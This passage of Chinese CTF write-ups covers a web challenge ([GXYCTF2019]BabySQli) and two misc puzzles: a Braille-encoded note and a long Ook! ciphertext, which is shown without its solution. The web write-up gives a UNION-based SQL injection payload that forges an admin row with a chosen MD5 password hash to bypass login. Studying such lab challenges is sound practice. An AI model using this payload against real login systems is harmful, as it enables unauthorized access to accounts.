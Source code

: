 ###### [GXYCTF2019]BabySQli

F12发现search.php，访问后F12发现一串base字符串，一次base32一次base64解密后得到：

```
select * from user where username = '$name'
```

可以利用查询不存在的数据，配合联合查询构造临时数据，绕过密码验证：

```
name: 1'+union+select+1,'admin','e10adc3949ba59abbe56e057f20f883e'#
pw:123456
```

## misc

###### [WUSTCTF2020]find_me

右键查看备注发现是八点盲文，找不到离线工具，在线搞定了：

https://www.qqxiuzi.cn/bianma/wenbenjiami.php?s=mangwen

###### [GUET-CTF2019]KO

```
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook!
Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook!
Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook?
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook.
Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook.
Ook. Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook?
Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook. Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook? Ook. Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook. Ook? Ook! Ook. Ook? Ook. Ook. Ook.
Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook!
Ook? Ook! Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook. Ook? Ook.
Ook? Ook! Ook. Ook? Ook. Ook. Ook! Ook. Ook? Ook. Ook. Ook. Ook. Ook. Ook.
Ook. Ook! Ook? Ook! Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook? Ook.
Ook? Ook! Ook. Ook? Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook! Ook!
Ook. Ook? Ook.
```
